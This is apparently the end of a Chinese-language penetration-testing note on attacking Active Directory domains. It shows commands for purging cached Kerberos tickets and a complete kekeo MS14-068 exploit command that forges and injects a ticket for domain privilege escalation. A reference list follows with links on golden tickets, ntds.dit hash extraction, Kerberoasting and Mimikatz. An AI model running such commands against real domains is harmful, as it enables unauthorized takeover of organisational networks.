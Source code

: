 列举缓存证书的命令klist
	
或者使用 kekeo
kerberos::purge or klist purge(为了让我们自己生成的票据生效，需要我们先用mimikatz将内存中的票据清空)
    
    kekeo.exe # exploit::ms14068 /domain:demo.local /user:testwin7 /password:1qaz$RFV /sid:S-1-5-21-1239069908-882060383-2558203358 /rid:1130 /kdc:owa2010dc.demo.local /ptt (接着使用域、普通域用户名和密码生成票据)
	http://www.mottoin.com/95877.html
	
	
	
**参考**
```
Attack Methods for Gaining Domain Admin Rights in Active Directory
    http://adsecurity.org/?p=2362 (国内关于域的文章基本来自于这里 還有 http://www.harmj0y.net)
一种深度隐蔽的后门方式(二)
    https://www.anquanke.com/post/id/93542
Mimikatz小实验:黄金票据+dcsync
    http://www.freebuf.com/sectool/112594.html
域渗透之hash与票据
    http://mp.weixin.qq.com/s/ENStRpYspx5W974BKPzZtA
域渗透——利用SYSVOL还原组策略中保存的密码
    https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8SYSVOL%E8%BF%98%E5%8E%9F%E7%BB%84%E7%AD%96%E7%95%A5%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/
如何巧妙的从ntds.dit中提取Hash和域信息
    http://www.freebuf.com/articles/system/151463.html
从活动目录中获取域管理员权限的6种方法
    http://www.4hou.com/technology/4256.html
Kerberoasting - Part 3
    https://room362.com/post/2016/kerberoast-pt3/
kekeo ticket 注入
    https://www.anquanke.com/post/id/92484
kerberoasting-without-mimikatz
    https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
    https://zhuanlan.zhihu.com/p/25723674 (翻譯)
Hash传递攻击登陆Windows2012远程桌面
    http://www.freebuf.com/articles/system/15757.html
Mimikatz 非官方指南和命令参考_Part1
    http://www.anquan.us/static/drops/tools-12462.html
Mimikatz 非官方指南和命令参考_Part2
    http://www.anquan.us/static/drops/pentesting-12521.html
Mimikatz 非官方指南和命令参考_Part3
    http://www.anquan.us/static/drops/tools-12754.html
```
